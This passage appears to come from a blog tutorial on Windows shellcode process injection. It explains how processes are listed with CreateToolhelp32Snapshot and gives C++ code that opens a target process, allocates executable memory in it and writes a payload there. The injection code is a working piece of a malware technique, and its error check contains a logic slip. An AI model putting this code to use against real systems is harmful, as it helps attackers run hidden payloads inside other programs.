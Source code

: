   - **pe32:** We declare and define a variable of type `PROCESSENTRY32W`, which stores information about processes such as `PID`, `TID`, modules, etc. Keep in mind that before calling `Process32FirstW`, ensure that `pe32.dwSize` is set to `sizeof(PROCESSENTRY32)`.
  - **CreateToolhelp32Snapshot:** This function is invoked to take a snapshot of all system processes and return a handle.
  
  To walk through the list of processes stored in the snapshot, we call `Process32FirstW` to retrieve the first process and `Process32NextW` to continue traversing the list. If the process name exists in the list, the function close the handle and returns the process ID.

- #### **Crafting another custom function to allocate remote memory:** ####

After identifying the target process in which the shellcode will be injected, the next step is to allocate memory and copy the shellcode into that region, ensuring it has the necessary security memory attributes, such as `RWX`. I'm using a custom function primarily responsible for retrieving a handle to an open process and allocating memory. If the function fails, it returns `FALSE` and cleans up resources, such as allocated memory and open handle objects; otherwise, it returns `TRUE`.

{% highlight CPP %}
BOOL MemoryAllocation(const DWORD dwProcessID, LPVOID* lpBuffer, HANDLE* hProcessHandle, SIZE_T& cbSize)
{

    if(dwProcessID == NULL || cbSize == NULL)
    {
        std::cerr << "[-] Invalid argument!..." << std::endl;
        return FALSE;
    } // Obtain a handle to an open process.
    else if(*hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessID))
    {
        try
        {   // Allocate memory for payload.
            *lpBuffer = VirtualAllocEx(*hProcessHandle, NULL, cbSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if(!(WriteProcessMemory(*hProcessHandle, *lpBuffer, payload, cbSize, NULL)) && *lpBuffer == nullptr) // Copy payload to memory buffer.
            throw FALSE;
        }
        catch(BOOL e)
        {
            if(*lpBuffer)
                VirtualFreeEx(*hProcessHandle, *lpBuffer, cbSize, MEM_RELEASE);
            else if (*hProcessHandle)
                CloseHandle(*hProcessHandle);
                
            return e;
        }
    }

    return TRUE;
}
{% endhighlight %}

Let's break down the `MemoryAllocation` function:
